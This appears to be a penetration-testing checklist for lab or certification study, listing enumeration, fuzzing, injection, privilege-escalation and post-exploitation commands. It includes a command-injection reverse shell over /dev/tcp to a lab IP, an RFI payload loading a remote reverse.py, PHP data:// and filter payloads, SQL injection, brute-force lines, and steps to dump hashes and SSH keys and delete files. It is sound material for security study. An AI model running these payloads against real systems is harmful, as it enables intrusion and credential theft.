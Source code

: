 # Useful Commands

<pre><code>☑ ffuf -w /opt/SecLists/Discovery/Web-Content/big.txt -u http://ip-address -recursion -recursion-depth 2
☐ ffuf -w /opt/SecLists/Discovery/Web-Content/raft-large-words.txt -u http://ip-address -e .php,.log,.txt,.pl,.cgi,.pdf,.sh, .jsp, .do, .conf, .config
<strong>
</strong><strong>Fuzz LFI 
</strong>☐ ffuf -w /opt/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u http://ip-address ☐ ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt:FUZZ -u "http://ip-address/blank-page.php?FUZZ=test" -fs 0 ☐ ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt:FUZZ -u "http://ip-address/evil.php?FUZZ=/etc/passwd"" -fs 0
</code></pre>

```
 RPC  
  ☐ rpcclient --user="" --command=enumprivs -N $ip
  ☐ rpcinfo -p $ip
  ☐ MS03-026 Microsoft RPC DCOM Interface Overflow (Critical)
  
 SMTP
  ☐ nc $ip 25 -vvv
  ☐ smtp-user-enum -M RCPT -U /usr/share/wordlists/metasploit/unix_users.txt -t $ip
  ☐ smtp-user-enum -M VRFY -U /opt/SecLists/Discovery/names.txt -t $ip
  ☐ smtp-user-enum -M EXPN -D example.com /usr/share/wordlists/metasploit/unix_users.txt -t $ip
  
 SNMP
  ☐ python3 snmpbrute.py -t $ip -p 161 -f /opt/SecLists/Discovery/SNMP/common-snmp-community-strings.txt
  ☐ hydra -P /opt/SecLists/Discovery/SNMP-common-snmp/community-strings.txt -v $ip snmp
  ☐ snmpcheck -t $ip -c public
  ☐ snmpenum -t $ip
  ☐ snmpwalk -v2c -c $community_string $ip >> snmpv2c.txt
  ☐ snmpwalk -c public -v1 $ip 1 | grep hrSWRunName | cut -d\*\* -f 
  ☐ snmpbulkwalk -c public -v2c $ip >> snmpbulk.txt
  
 NFS 
  ☐ nmap -sV --script=nfs-showmount $ip
  ☐ shoutmount -e $ip
  
 LDAP
  ☐ ldapsearch -h $ip -p $port -x -s base
  ☐ ldapsearch -x -h $ip -D '<DOMAIN>\<username>' -w '<password>' -b "DC=<1_SUBDOMAIN>,DC=<TDL>"

SQL 
	MSSQL
	☐ impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth 
	☐ select * from sys.sysusers;
	
	MYSQL
	☐ mysql -u root -p'root' -h $ip -P 3306 

 Automated Web Scans
	☐ autorecon $ip --nmap-append="--min-rate=2500" --exclude-tags="top-100-udp-ports" --dirbuster.threads=30 -vv
	☐ nikto -h http://192.168.179.132
	☐ nikto -ask=no -h http://$ip 2>&1
	☐ whatweb -a 3 $ip
	☐ Zap Crawler
	☐ wpscan --url http://192.168.50.244 --enumerate p --plugins-detection aggressive
	
LFI / RFI
  ☐ Windows LFI 
        ☐ C:\Windows\System32\drivers\etc\hosts
        ☐ C:\inetpub\logs\LogFiles\W3SVC1\
        ☐ C:\inetpub\wwwroot\web.config
  ☐ RFI
        ☐   hxxp://target.com/vuln?page=http://192.168.50.51/reverse.py
        
SQL Injection
  ☐ ' OR 1=1 -- 1 UNION SELECT first_name, password FROM users #


Command Injection
  ☐ http://target.com/vuln?ping=192.168.50.51 ; bash -i >& /dev/tcp/192.168.50.51/1337 0>&1    
  
/.git/
	wget -r http://$ip/.git
	git log
	git show
	git diff
	git fetch

Crying for Help
	☐ telnet -d -d -d -d -d $ip $port
	☐ for file in $(ls /usr/share/seclists/Discovery/Web-Content); do gobuster -u http://$ip/ -w /usr/share/seclists/Discovery/Web-Content/$file -e -k -l -s "200,204,301,302,307" -t 20 ; done		
	☐ update /etc/host. Ip address with computer name, etc.		
	☐ https://securing.dev/posts/hacking-the-oscp-recon/
	
```

Service Scanning

```
WebApp
  ☐	ffuf 
  ☐	gobuster
  ☐	Nessus
  ☐   Nikto
  ☐   wpscan
  ☐   dotdotpwn
  ☐   view source 
  ☐   davtest\cadevar
  ☐   droopscan
  ☐   joomscan
  ☐   LFI\RFI Test
  
Linux\Windows
  ☐   snmpwalk -c public -v1 ipaddress 1
  ☐   smbclient -L //ipaddress
  ☐   enum4linux ipaddress
  ☐   showmount -e ipaddress port
  ☐   rpcinfo
  ☐   Enum4Linux

Anything Else
  ☐   nmap scripts (locate *nse* | grep servicename)
  ☐   hydra
  ☐  MSF Aux Modules
  ☐  Download the softward

  ☐ page=data://text/plain,<?php%20echo%20system('ls');?>"
  ☐ page=php://filter/convert.base64-encode/resource=admin.php
```

Exploitation ☐ Gather Version Numbes ☐ Searchsploit ☐ Default Creds ☐ Creds Previously Gathered ☐ Download the software

Post Exploitation

```
Linux
  ☐   linux-local-enum.sh
  ☐   linuxprivchecker.py
  ☐   linux-exploit-suggestor.sh
  ☐   unix-privesc-check.py

Windows
  ☐   wpc.exe
  ☐   windows-exploit-suggestor.py
  ☐   windows_privesc_check.py
  ☐  	windows-privesc-check2.exe
```

Priv Escalation ☐ acesss internal services (portfwd) ☐ add account ☐ https://guif.re/windowseop - Windows Privilege Escalation ☐ https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS - WinPEAS ☐ Unquoted Paths ☐ DLL Hijacking ☐ Insecure backups

Lateral Movement ☐ Mimikatz - Know the command! ☐ Password Hashes (Hashcat, Pass-The-Hash, Ticket technique) - impacket-psexec, evil-winrm, or xfreerdp

Windows ☐ List of exploits

Linux ☐ sudo su ☐ KernelDB ☐ Searchsploit

Final ☐ Screenshot of IPConfig\WhoamI ☐ Copy proof.txt ☐ Dump hashes ☐ Dump SSH Keys ☐ Delete files

